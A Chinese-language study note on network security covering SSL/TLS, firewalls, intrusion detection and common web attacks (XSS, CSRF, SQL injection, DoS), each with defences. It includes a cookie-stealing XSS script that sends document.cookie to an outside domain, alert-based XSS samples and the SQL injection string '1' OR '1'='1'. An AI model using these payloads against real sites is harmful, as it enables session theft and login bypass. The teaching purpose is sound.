1999 年，IETF 在 **SSL** 3.0 **基础**上推出了**传输层安全标准 TLS**，为**所有基于 TCP 的网络应用**提供安全数据传输服务。



在**发送方**，SSL 接收**应用层**的数据，对数据进行**加密**，然后把加了密的数据送往 **TCP 套接字**。在**接收方**，**SSL** 从 **TCP** 套接字**读取**数据，**解密**后把数据交给应用层。 

运输层不使用安全协议和**使用安全协议**的对比如下图所示。



- SSL / TLS 建立在**可靠的 TCP** 之上，与**应用层协议独立无关**。
- SSL / TLS 已被所有常用的**浏览器**和万维网**服务器所支持**。
- SSL / TLS **基本目标**：实现两个应用实体之间的安全可靠通信。

**应用层**使用 SSL 最多的就是 **HTTP**，但 SSL 并非仅用于 HTTP，而是可用于**任何应用层**的协议。

应用程序 HTTP 调用 **SSL 对整个网页**进行加密时，网页上会提示用户，在网址栏原来显示 http 的地方，现在变成了 **https**。在 http 后面加上的 s 代表 **security**，表明现在使用的是提供安全服务的 HTTP 协议（TCP 的 HTTPS 端口号是 **443**，而不是平时使用的端口号 80）。

**SSL 提供的安全服务**

- **SSL 服务器鉴别**，允许用户证实服务器的身份。支持 SSL 的客户端 通过验证来自服务器的证书，来鉴别服务器的真实身份并获得服务器的公钥。
- **SSL 客户鉴别**，SSL 的可选安全服务，允许服务器证实客户的身份。
- **加密的 SSL 会话**，对客户和服务器间发送的所有报文进行加密，并检测报文是否被篡改。

###### **② SSL安全会话建立过程**



1. 协商加密算法。 ①浏览器 A 向服务器 B 发送浏览器的 SSL 版本号和一些可选的加密算法。 ② B 从中选定自己所支持的算法（如 RSA），并告知 A。
2. 服务器鉴别。 ③ 服务器 B 向浏览器 A 发送包含其 RSA 公钥的数字证书。 ④ A 使用该证书的认证机构 CA 公开发布的RSA公钥对该证书进行验证。
3. 会话密钥计算。由浏览器 A 随机产生一个秘密数。 ⑤ 用服务器 B 的 RSA 公钥进行加密后发送给 B。 ⑥ 双方根据协商的算法产生共享的对称会话密钥。
4. 安全数据传输。 ⑦ 双方用会话密钥加密和解密它们之间传送的数据并验证其完整性。

##### 3. 应用层安全协议

本节仅讨论应用层中有关**电子邮件**的安全协议。发送电子邮件是个即时的行为。发送方 A 和接收方 B 并不会为此而建立任何会话。电子邮件安全协议就应当为每种加密操作定义相应的算法，以及密钥管理、鉴别、完整性保护等方法。


#### 防火墙与入侵检测

##### 1. 防火墙

防火墙是由软件、硬件构成的系统，是一种特殊编程的**路由器**，用来在两个网络之间实施**访问控制策略**。
访问控制策略是由使用防火墙的单位自行制订的，为的是可以最适合本单位的需要。防火墙内的网络称为“可信的网络”(trusted network)，而将外部的互联网称为“不可信的网络”(untrusted network)。防火墙可用来解决**内联网和外联网**的安全问题。



防火墙的功能有两个：**阻止和允许**。

- “阻止”就是阻止某种类型的通信量通过防火墙（从外部网络到内部网络，或反过来）。
- “允许”的功能与“阻止”恰好相反。

防火墙必须能够识别各种类型的通信量。不过在大多数情况下防火墙的主要功能是“阻止”。

防火墙技术分为一般两类：

**分组过滤路由器**

- 是一种具有分组过滤功能的路由器，它根据过滤规则对进出内部网络的分组执行转发或者丢弃（即过滤）。过滤规则基于分组的网络层或运输层首部的信息，例如：源/目的 IP 地址、源/目的端口、协议类型（TCP 或 UDP）等。
- 分组过滤可以是无状态的，即独立地处理每一个分组。也可以是有状态的，即要跟踪每个连接或会话的通信状态，并根据这些状态信息来决定是否转发分组。
- 简单高效，对用户透明，但不能对高层数据进行过滤。

**应用网关也称为代理服务器 (proxy server)**

- 它在应用层通信中扮演报文中继的角色。
- 每种网络应用需要一个应用网关。
- 在应用网关中，可以实现基于应用层数据的过滤和高层用户鉴别。
- 所有进出网络的应用程序报文都必须通过应用网关。
- 应用网关也有一些缺点：每种应用都需要一个不同的应用网关；在应用层转发和处理报文，处理负担较重；对应用程序不透明，需要在应用程序客户端配置应用网关地址。

##### 2. 入侵检测

防火墙试图在入侵行为发生之前阻止所有可疑的通信。**入侵检测系统 IDS** (Intrusion Detection System) 能够在入侵已经开始，但还没有造成危害或在造成更大危害前，及时检测到入侵，以便尽快阻止入侵，把危害降低到最小。 

IDS 对进入网络的分组执行深度分组检查，当观察到可疑分组时，向网络管理员发出告警或执行阻断操作（由于 IDS 的“误报”率通常较高，多数情况不执行自动阻断）。
IDS 能用于**检测多种网络攻击**，包括网络映射、端口扫描、DoS 攻击、蠕虫和病毒、系统漏洞攻击等。


#### Web 攻击技术

总结一下常见的 Web 攻击方法。

- **XSS攻击**（关键是脚本，利用恶意脚本发起攻击）
- **CSRF攻击**（关键是借助本地 cookie 进行认证，伪造发送请求）
- **SQL注入**（关键是通过用 SQL 语句伪造参数发出攻击）
- **DDOS攻击**（关键是发出大量请求，最后令服务器崩溃）

##### 1. 跨站脚本攻击XSS

###### ① 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。从而达到攻击的目的，如盗取用户的 cookie，改变网页的 DOM 结构，重定向到其他网页等。

其实归根结底，XSS 的攻击方式就是想办法“教唆”**用户的浏览器去执行一些这个网页中原本不存在的前端代码**。

###### ② 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

###### (3) 攻击分类举例

**① 反射型XSS**

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。

**简单例子**

正常发送消息：`http://www.test.com/message.php?send=Hello,World！`

接收者将会接收信息并显示Hello,Word

非正常发送消息：`http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>！`

接收者接收消息显示的时候将会弹出警告窗口

**② 持久型XSS**

又称为持久型跨站点脚本，它一般发生在XSS攻击向量(一般指XSS攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的orkut曾经就遭受到XSS。

**简单例子：**

从名字就可了解到存储型XSS攻击就是将攻击代码存入数据库中，然后客户端打开时就执行这些攻击代码。例如留言板

留言板表单中的表单域：`<input type=“text” name=“content” value=“这里是用户填写的数据”>`

**正常操作：**用户是提交相应留言信息；将数据存储到数据库；其他用户访问留言板，应用去数据并显示。

**非正常操作：**攻击者在value填写`<script>alert(‘foolish!’)</script>`【或者html其他标签（破坏样式。。。）、一段攻击型代码】；将数据存储到数据库中；其他用户取出数据显示的时候，将会执行这些攻击性代码

**③ DOM-based XSS**

基于DOM的XSS，通过对具体DOM代码进行分析，根据实际情况**构造dom节点**进行XSS跨站脚本攻击。

注：domxss取决于输出位置，并不取决于输出环境，因此domxss既有可能是反射型的，也有可能是存储型的。dom-based与非dom-based，反射和存储是两个不同的分类标准。

###### ③ 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

###### ④ 防范手段

记住一句至理名言——“**所有用户输入都是不可信的**。”

答案很简单，**坚决不要相信用户的任何输入**，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

**I 设置 Cookie 为 HttpOnly**

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

**II 过滤特殊字符，进行转义处理**

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被**转义**，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
```

```html
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
  &lt;input type="text" name="q" value="test"&gt;
&lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/javascript"&gt;
alert(/xss/);
&lt;/script&gt;
```

> [XSS 过滤在线测试](http://jsxss.com/zh/try.html)

##### 2. 跨站请求伪造 CSRF

###### ① 概念

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去**访问一个自己曾经认证过的网站**并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。

由于浏览器**曾经认证**过，所以被访问的网站会认为是**真正**的用户操作而去执行。

**XSS 利用的是==用户==对指定==网站==的信任，CSRF 利用的是==网站==对用户==浏览器==的信任。**



**看图说话，大致过程**

- 用户访问浏览正常网站
- 正常网站服务器响应并且返回标识该用户身份的cookie
- 用户未注销正常网站的情况下，访问恶意网站
- 恶意网站里访问正常网站并且带着标识用户的cookie
- 正常网站服务器接受来自恶意网站的请求

再次访问正常网站时，浏览器会自动带上标识该用户身份的cookie发送请求，所以正常网站服务器会接受来自恶意网站的请求，从而完成攻击。

当我访问登录一个正常网站，成功访问后服务器会产生一个标识用户身份的cookie给用户的浏览器保存，在标识cookie还存在时访问恶意网站，在该网站里攻击者会让你不知不觉的访问之前的正常网站并且执行一些操作，由于标识用户身份的cookie还存在，所以用户浏览器认为是用户的本意操作而执行该请求，从而攻击成功。

这些欺骗的访问方式有很多，例如“点击小广告、找回密码”等等诱导用户去点击操作。

###### ② 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

总结一下就是，要完成一次 CSRF 攻击，受害者必须依次完成两个步骤：

- 登录受**信任网站A**，并在本地**生成Cookie**。
- 在**不登出A**的情况下，访问**危险网站B**。

###### ③ 防范手段

**I 检查 Referer 首部字段**

**Referer 首部字段**位于 HTTP 报文中，用于**标识请求来源**的地址。检查这个首部字段并要求**请求来源**的地址在**同一个域名**下，可以极大的防止 CSRF 攻击。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

**II 添加校验 Token**

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。所以我们可以**采用 token（不存储于浏览器）认证**。

当用户正常访问网站时，服务器会生产一个随机数，并且把该随机数埋入该页面里（一般放在form表单，`<input type="hidden" name="_csrf_token" value="xxxx">`）。正常访问，客户的浏览器是能够得到并且返回该字段，而CSRF一开始是不知道该字段的数值，服务器接受请求发现该字段的异常，从而拒绝该请求。

**III 输入验证码**

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户**输入验证码**可以让用户知道自己正在做的操作。

###### ④ XSS与CSRF区别

> 如何用简洁生动的语言说明 XSS 和 CSRF 的区别？

xss原理上利用的是浏览器**可以拼接成任意的javascript**，然后**黑客拼接好javascript**让浏览器自动地给服务器端发出多个请求（get、post请求）。
csrf原理上利用的是网站服务器端所有参数都是**可预先构造**的原理，然后**黑客拼接好具体请求url**，可以引诱你提交他构造好的请求。

##### 3. SQL 注入攻击

###### ① 概念

服务器上的数据库运行**非法的 SQL** 语句，主要通过**拼接**来完成。

###### ② 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

###### ③ 防范手段

**I 使用参数化查询**

Java 中的 **PreparedStatement** 是**预先编译**的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。MyBatis 中也有类似机制。

```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

**II 单引号转换**

将传入的参数中的单引号转换为**连续两个单引号**，PHP 中的 Magic quote 可以完成这个功能。

##### 4. 拒绝服务攻击 DOS

###### ① 概念

拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

###### ② 攻击方法

典型的 DOS 攻击方式如下：

- **SYN Flood** ： 这是一种利用 TCP 协议缺陷，**发送大量伪造的 TCP 连接请求**，从而使得被攻击方资源耗尽（CPU满负荷或内存不足）的攻击方式。TCP 三次握手时，客户端服务器发出请求，请求建立连接，然后服务器返回一个报文，表明请求以被接受，然后客户端也会返回一个报文，最后建立连接。那么如果有这么一种情况，攻击者伪造 IP 地址，发出报文给服务器请求连接，这个时候服务器接受到了，根据 TCP 三次握手的规则，服务器也要回应一个报文，可是这个 **IP 是伪造的**，报文回应给谁呢，**第二次握手出现错误**，第三次自然也就不能顺利进行了，这个时候服务器收不到第三次握手时客户端发出的报文，又再**重复第二次握手**的操作。如果攻击者伪造了大量的 IP 地址并发出请求，这个时候服务器将维护一个非常大的**半连接**等待列表，占用了大量的资源，最后服务器瘫痪。
- **CC 攻击**：CC 攻击是目前应用层攻击的主要手段之一，借助代理服务器生成指向目标系统的合法请求，实现伪装和 DDoS。我们都有这样的体验，访问一个静态页面，即使人多也不需要太长时间，但如果在高峰期访问论坛、贴吧等，那就很慢了，因为服务器系统需要到数据库中判断访问者否有读帖、发言等权限。访问的人越多，论坛的页面越多，数据库压力就越大，被访问的频率也越高，占用的系统资源也就相当可观。CC攻击就充分利用了这个特点，模拟多个正常用户不停地访问如论坛这些需要大量数据操作的页面，造成服务器资源的浪费，CPU长时间处于100%，永远都有处理不完的请求，网络拥塞，正常访问被中止。这种攻击技术性含量高，见不到真实源IP，见不到特别大的异常流量，但服务器就是无法进行正常连接。

###### ③ 预防

没有根治的办法，除非不用TCP/IP链接

- 确保服务器的系统文件是最新版本，并及时更新系统补丁 
- 关闭不必要的服务 
- 限制同时打开SYN的半连接数目 
- 缩短SYN半连接的time out时间 
- 正确设置防火墙 
- 禁止对主机的非开放服务的访问 
- 限制特定IP短地址的访问 
- 启用防火墙的防DDos的属性 
- 严格限制对外开放的服务器的向外访问 
- 运行端口映射程序祸端口扫描程序，要认真检查特权端口和非特权端口。 
- 认真检查网络设备和主机/服务器系统的日志。只要日志出现漏洞或是时间变更，那这台机器就可能遭到了攻击。 
- 限制在防火墙外与网络文件共享。这样会给黑客截取系统文件的机会，主机的信息暴露给黑客，无疑是给了对方入侵的机会。 

阿里巴巴的安全团队在实战中发现，DDoS 防御产品的核心是**检测技术和清洗技术**。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。


#### 面试题

##### 1. 怎么知道连接是恶意的呢？可能是正常连接？

1. 验证码（最简单有效的防护），采用点触验证，滑动验证或第三方验证码服务，普通验证码很容易被破解
2. 频率，限制同设备，同IP等发送次数，单点时间范围可请求时长
3. 归属地，检测IP所在地是否与手机号归属地匹配；IP所在地是否是为常在地
4. 可疑用户，对于可疑用户要求其主动发短信（或其他主动行为）来验证身份
5. 黑名单，对于黑名单用户，限制其操作，API接口直接返回success，1可以避免浪费资源，2混淆黑户判断
6. 签名，API接口启用签名策略，签名可以保障请求URL的完整安全，签名匹配再继续下一步操作
7. token，对于重要的API接口，生成token值，做验证
8. https，启用https，https 需要秘钥交换，可以在一定程度上鉴别是否伪造IP
9. 代码混淆，发布前端代码混淆过的包
10. 风控，大量肉鸡来袭时只能受着，同样攻击者也会暴露意图，分析意图提取算法，分析判断是否为恶意 如果是则断掉；异常账号及时锁定；或从产品角度做出调整，及时止损。
11. 数据安全，数据安全方面做策略，攻击者得不到有效数据，提高攻击者成本
12. 恶意IP库，<https://threatbook.cn/>，过滤恶意IP

tips：

- 鉴别IP真伪（自己识别代理IP和机房IP成本略高，可以考虑第三方saas服务。由肉鸡发起的请求没辙，只能想其他方法）
- 手机号真伪（做空号检测，同样丢给供应商来处理，达不到100%准确率，效率感人，并且不是实时的，可以考虑选择有防攻击的运营商）
- 安全问题是长期的和攻击者斗智斗勇的问题，没有一劳永逸的解决方案，不断交锋，不断成长


#### 参考资料

- [维基百科：跨站脚本](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
- [维基百科：SQL 注入攻击](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)
- [维基百科：跨站点请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- https://blog.csdn.net/zhydream77/article/details/85694614


